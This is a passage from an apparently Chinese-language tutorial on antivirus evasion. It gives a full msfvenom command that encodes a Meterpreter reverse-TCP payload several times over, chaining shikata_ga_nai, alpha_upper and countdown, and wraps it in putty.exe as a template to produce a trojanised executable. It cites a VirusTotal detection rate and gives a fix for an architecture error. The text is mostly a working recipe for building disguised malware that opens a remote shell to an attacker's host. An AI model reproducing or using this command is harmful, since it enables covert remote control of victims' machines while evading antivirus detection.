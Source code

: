 ![image-20220526193813109](./images/202205261938216.png)

### msfvenom多重编码(VT查杀率28/67)

msfvenom的encoder编码器可以对payload进行一定程度免杀，同时还可以使用msfvenom多重编码功能，通过管道，让msfvenom用不同编码器反复编码进行混淆。

如下命令，使用管道让`msfvenom`对攻击载荷多重编码，先用`shikata_ga_nai`编码20次，接着来10次的`alpha_upper`编码，再来10次的`countdown`编码，最后才生成以`putty.exe`为模板的可执行文件。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=192.168.174.128 LPORT=6666 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x putty.exe -f exe -o /mnt/hgfs/Share/payload5.exe
```

如果报错`Error: You must select an arch for a custom payload`，则添加参数：

```
-a x86 --platform windows
```
